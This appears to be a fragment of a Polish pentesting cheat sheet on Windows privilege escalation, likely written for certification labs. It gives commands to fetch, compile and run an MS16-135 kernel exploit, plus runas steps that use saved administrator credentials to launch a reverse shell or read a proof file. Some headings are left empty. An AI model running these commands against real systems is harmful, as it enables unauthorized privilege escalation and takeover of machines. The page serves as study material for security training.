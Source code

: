 

<h4 class="wp-block-heading"><span class="ez-toc-section" id="Kernel" ez-toc-data-id="#Kernel"></span>Kernel:<span class="ez-toc-section-end"></span></h4>



<p>#<a href="https://github.com/SecWiki/windows-kernel-exploits">Github</a> z bazą exploitów Kernel na Windows<br>#MS16-135: Pobierz: https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS16-135/41015.c  #&gt;  Kompilacja na 64: i686-w64-mingw32-gcc exploit.c -o exploit.exe   LUB  kompiacja na 32:  i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32  #&gt;  wykonanie na Win: .\exploit.exe</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Registry" ez-toc-data-id="#Registry"></span>Registry<span class="ez-toc-section-end"></span></h4>



<p>#regedit.exe i <a href="https://3haker.pl/rejestr-windows-legenda-regedit-exe/">objasnienie</a> drzewa rejestru<br>#Patrz: Autorun, AlwaysElevated itd.</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="RunAs" ez-toc-data-id="#RunAs"></span>RunAs:<span class="ez-toc-section-end"></span></h4>



<p><em>na maszynie na której jestesmy odpalamy cos jaki inny user do ktorego mamy credsy np. mozesz nc.exe z revshell lub met.exe robiacy rev-shell</em></p>



<p>#runas /user:corp\offsec cmd.exe<br>#runas /savecred /user:admin C:\Temp\reverse.exe  (Transfer the reverseshell)<br>#cmdkey /list (sprawdza czy na maszynie sa zapisane credsy Adminsitratora) #&gt; C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred „C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\proof.txt &gt; C:\Users\offsec\proof.txt”   (by TCM)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Startup_Applications" ez-toc-data-id="#Startup_Applications"></span>Startup Applications<span class="ez-toc-section-end"></span></h4>



<p>#xx</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="DLL_Hijacking" ez-toc-data-id="#DLL_Hijacking"></span>DLL Hijacking:<span class="ez-toc-section-end"></span></h4>



